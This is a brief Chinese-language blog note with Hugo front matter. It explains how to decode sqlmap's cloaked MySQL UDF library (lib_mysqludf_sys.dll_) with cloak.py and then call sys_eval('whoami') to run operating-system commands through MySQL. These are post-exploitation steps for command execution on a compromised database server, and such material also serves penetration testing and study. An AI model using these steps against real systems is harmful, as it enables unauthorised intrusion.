```yaml
---
title: "SQLmap udf dll 解码"
date: 2018-06-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['sqli','mysql']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



SQLmap udf dll 解码

<!--more-->

文件.

`udf/mysql/windows/32/lib_mysqludf_sys.dll_`

用 extra/cloak 下的 cloak.py 解码.

`cloak.py -d -i lib_mysqludf_sys.dll_`

mysql 导入执行.

`select sys_eval('whoami');`